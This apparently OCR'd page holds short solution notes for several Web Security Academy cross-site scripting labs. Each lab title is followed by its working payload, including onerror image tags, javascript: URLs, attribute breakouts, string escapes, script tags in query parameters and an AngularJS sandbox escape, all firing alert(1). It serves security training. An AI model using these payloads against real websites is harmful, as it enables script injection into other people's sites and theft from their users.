 # Lab: DOM XSS in innerHTML sink using source
-> payload: `<img src='123.png' onerror='alert(1)'>`

# Lab: DOM XSS in jQuery anchor href attribute sink using location.search source
payload: `https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)`

# Lab: Reflected XSS into attribute with angle brackets HTML-encoded
-> payload: `" autofocus onfocusin='alert(1)' x="`

# Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded
-> payload: `https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">` (fill to website)

# Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded
-> payload: `123'; alert(1);//`

# Lab: DOM XSS in document.write sink using source location.search inside a select element
-> payload: `https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>`

# Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
-> payload: {{constructor.constructor('alert(1)')()}}
